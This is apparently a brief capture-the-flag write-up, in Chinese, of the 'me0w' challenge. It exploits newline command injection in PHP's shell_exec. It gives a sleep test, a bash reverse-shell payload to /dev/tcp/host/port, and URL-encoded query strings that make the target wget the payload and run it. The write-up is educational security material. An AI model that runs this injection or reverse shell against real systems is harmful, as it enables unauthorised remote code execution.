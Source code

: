 # me0w [50]

這一題利用 php 的 shell\_exec 函式遇到換行符號會執行新指令的特性。
像是題目中使用

```
shell_exec("cat $me0w &> /dev/null");
```

如果在 me0w 中塞 

```
?me0w=%0asleep%205  (%0a 是換行符號，%20是)空格)
```

系統會暫停 5 秒

所以這題將 payload 放在一個遠端的 server 來達到 RCE。payload 內容大致為(host, port 為自己server的路徑)

```
bash -c 'bash -i >& /dev/tcp/host/port 0>&1'
```

之後用 me0w 下載 payload 後執行

```
?me0w=%0awget%20{payload_address}%20-O%20{save_file}
?me0w=%0ash%20{save_file}
```

